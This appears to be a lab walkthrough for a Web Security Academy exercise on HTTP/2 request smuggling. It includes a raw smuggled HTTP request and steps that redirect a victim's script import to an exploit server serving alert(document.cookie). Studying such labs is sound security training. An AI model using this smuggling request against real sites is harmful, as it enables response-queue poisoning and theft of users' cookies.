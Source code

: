 <img width="1462" height="725" alt="image" src="https://github.com/user-attachments/assets/447b893e-c9b2-47eb-8bbd-4d997cdb08e6" />


Using enagagment tool in burp to discover content

<img width="1366" height="838" alt="image" src="https://github.com/user-attachments/assets/2fd2897c-0bf9-450d-a899-9683ac7e5c7d" />


We can see that  resource is redirecting us to  **url/resources**

<img width="1386" height="771" alt="image" src="https://github.com/user-attachments/assets/46c2174a-9dbc-4c56-ba34-712a63f75f39" />


Create the following request to smuggle the start of a request for /resources, along with an arbitrary Host header:

```http

POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```


Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host

<img width="1358" height="542" alt="image" src="https://github.com/user-attachments/assets/4c249c22-9486-48cd-8fc7-86ec33e8b363" />

Go to the exploit server and change the file path to **/resources**. In the body, enter the payload **alert(document.cookie)**, then store the exploit.

<img width="1601" height="878" alt="image" src="https://github.com/user-attachments/assets/e043932a-466a-4814-9a0e-c76e1dc9b89c" />


In Burp Repeater, edit your malicious request so that the **Host header** points to your exploit server:

Send the request a few times and confirm that you receive a redirect to the exploit server.
Resend the request and wait for 10 seconds or so.

<img width="1049" height="583" alt="image" src="https://github.com/user-attachments/assets/a9d7929d-da03-4aad-86e7-bd89959527ea" />


Go to the exploit server and check the access log. If you see a `GET /resources/` request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.

<img width="1368" height="294" alt="image" src="https://github.com/user-attachments/assets/afe3ad27-fd8e-42e6-bbb0-86ccbb81d288" />


Once you have confirmed that you can cause the victim to be redirected to the exploit server, repeat the attack until the lab solves. This may take several attempts because you need to time your attack so that it poisons the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, although their browser will load your malicious JavaScript, it won't execute it.
